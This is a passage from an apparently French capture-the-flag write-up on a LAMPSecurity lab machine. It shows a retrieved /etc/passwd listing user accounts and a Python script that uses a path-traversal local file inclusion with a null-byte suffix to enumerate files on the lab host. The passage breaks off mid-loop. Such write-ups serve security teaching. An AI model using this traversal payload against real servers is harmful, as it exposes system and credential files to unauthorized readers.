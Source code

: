 ```plain
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/etc/news:
uucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
gopher:x:13:30:gopher:/var/gopher:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
vcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin
rpc:x:32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin
nscd:x:28:28:NSCD Daemon:/:/sbin/nologin
tcpdump:x:72:72::/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
rpm:x:37:37:RPM user:/var/lib/rpm:/sbin/nologin
polkituser:x:87:87:PolicyKit:/:/sbin/nologin
avahi:x:499:499:avahi-daemon:/var/run/avahi-daemon:/sbin/nologin
mailnull:x:47:47::/var/spool/mqueue:/sbin/nologin
smmsp:x:51:51::/var/spool/mqueue:/sbin/nologin
apache:x:48:48:Apache:/var/www:/sbin/nologin
ntp:x:38:38::/etc/ntp:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
openvpn:x:498:497:OpenVPN:/etc/openvpn:/sbin/nologin
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
nfsnobody:x:65534:65534:Anonymous NFS User:/var/lib/nfs:/sbin/nologin
torrent:x:497:496:BitTorrent Seed/Tracker:/var/spool/bittorrent:/sbin/nologin
haldaemon:x:68:68:HAL daemon:/:/sbin/nologin
gdm:x:42:42::/var/gdm:/sbin/nologin
patrick:x:500:500:Patrick Fair:/home/patrick:/bin/bash
jennifer:x:501:501:Jennifer Sea:/home/jennifer:/bin/bash
andy:x:502:502:Andrew Carp:/home/andy:/bin/bash
loren:x:503:503:Loren Felt:/home/loren:/bin/bash
amy:x:504:504:Amy Pendelton:/home/amy:/bin/bash
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
cyrus:x:76:12:Cyrus IMAP Server:/var/lib/imap:/bin/bash
```

Le système compte 5 utilisateurs : *patrick, jennifer, andy, loren* et *amy*. Cela pourra nous servir plus tard.  

La faille étant presque [celle du CTF4](http://devloop.users.sourceforge.net/index.php?article96/solution-du-ctf-lampsecurity-ctf4), il suffit de modifier légèrement le script Python que j'avais écrit pour effectuer une énumération rapide de fichiers sur le système :  

```python
import requests

URL = "http://192.168.1.69/index.php?page=../../../../../..PARAM%00"

fd = open("logs.txt")

while True:
    word = fd.readline()
    if not word:
        break
    word = word.strip()
    r = requests.get(URL.replace("PARAM", word))
```